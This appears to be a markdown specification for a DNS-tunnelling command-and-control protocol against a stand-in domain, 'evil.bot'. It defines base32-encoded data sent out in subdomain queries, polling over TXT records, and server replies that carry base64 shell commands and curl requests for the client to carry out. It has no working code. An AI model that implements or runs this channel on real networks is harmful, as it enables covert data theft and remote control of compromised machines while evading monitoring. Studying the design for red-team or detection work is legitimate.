 # Domain

evil.bot

# CLIENT -> SERVER

## ENCODING

- Data: Base32 in subdomain
  - The whole data block is one base32 String (minimum padding)
- Commands: Plaintext
- ClientID: Plaintext


### END OF MESSAGE

- 0.[...].evil.bot

## MESSAGE

### A
#### Request ID

- Polling ohne id
- requestid.evil.bot

#### Data
- send data to server

##### Head
- \<base32>\<data>.[...].\<base32>\<data>.head.data.\<ClientID>.evil.bot
- 0.\<base32>\<data>.[...].\<base32>\<data>.head.data.\<ClientID>.evil.bot
  - optional: body request signals end of head

#### Body

- \<base32>\<data>.[...].\<base32>\<data>.body.data.\<ClientID>.evil.bot
- 0.\<base32>\<data>.[...].\<base32>\<data>.body.data.\<ClientID>.evil.bot

### TXT

#### Poll

- polling
- poll.\<ClientID>.evil.bot

#### Continue

- continue data transmission
- continue.\<ClientID>.evil.bot

#### Curl

- curl a webpage
- 0.\<base32>\<webpage>.[...].\<base32>\<webpage>.curl.\<ClientID>.evil.bot


## SEQUENCE DIAGRAM


# SERVER -> CLIENT

## ENCODING

- TXT data is base64 encoded (except for the command and the space after it)

## RESPONSES

### A

#### Request ID

- 10.\<random>.\<random>.\<ClientID>

#### Data

- \<random != 10>.\<random>.\<random>.\<random>

### TXT

#### Poll

##### Noting

- NOTHING

##### Data

- DATA\<space>\<base64>\<data>

##### shell command

- SHELL\<space>\<base64>\<command>


#### Continue

##### Noting

- NOTHING

##### Data

- \<base64>\<data>

##### shell command

- \<base64>\<command>

## SEQUENCE DIAGRAM